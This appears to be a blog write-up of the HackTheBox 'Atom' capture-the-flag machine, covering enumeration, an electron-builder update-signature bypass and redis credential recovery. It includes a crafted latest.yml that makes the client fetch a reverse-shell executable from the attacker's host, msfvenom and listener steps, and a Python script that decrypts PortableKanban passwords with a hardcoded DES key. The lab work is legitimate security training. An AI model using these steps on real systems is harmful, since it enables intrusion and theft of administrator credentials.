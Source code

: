 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: ctf
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

<hr>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

<hr>

### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

<p align="center">
 <img src="images/atom1.png">
</p>

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

<p align="center">
 <img src="images/atom2.png">
</p>

We start off by checking port 80:
We find a possible uname at th end of the pg : __MrR3boot@atom.htb__

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

<p align="center">
 <img src="images/atom7.png">
</p>

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

<p align="center">
 <img src="images/atom3.png">
</p>

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

<p align="center">
 <img src="images/atom4.png">
</p>

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

<p align="center">
 <img src="images/atom5.png">
</p>

<p align="center">
 <img src="images/atom6.png">
</p>
----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

<p align="center">
 <img src="images/atom8.png">
</p>

- I renamed the file to d'payload.exe

<p align="center">
 <img src="images/atom10.png">
</p>

- Calculate the hash using the prescribed syntax : 

<p align="center">
 <img src="images/atom9.png">
</p>


- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using: `sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

<p align="center">
 <img src="images/atom11.png">
</p>

Congrats We now have a reverse shell. 

- A getuid command shows we are ATOM\jason
Awesome!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

<p align="center">
 <img src="images/atom12.png">
</p>

Run it...

Details found :

- Jasons creds :

<p align="center">
 <img src="images/atom13.jpg">
</p>

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

<p align="center">
 <img src="images/atom17.png">
</p>


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

<p align="center">
 <img src="images/atom14.png">
</p>

- We found the pass for redis. 

<p align="center">
 <img src="images/atom15.jpg">
</p>




**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:

`redis -h 10.10.10.237`


- Authenticate using the password:

`auth pass`


- Retrive info on the keyspace using:

`info keyspace`


- We see that there is one db - number 0 which has 4 keys.
View the keys by:

`keys *`


- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:

`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`


<p align="center">
 <img src="images/atom16.jpg">
</p>


- We now have the administrator hash ! RightOn!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

<p align="center">
 <img src="images/atom18.png">
</p>

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

<p align="center">
 <img src="images/atom20.jpg">
</p>


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


<p align="center">
 <img src="images/atom19.jpg">
</p>

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

### Bookmark to recieve the latest writeups!






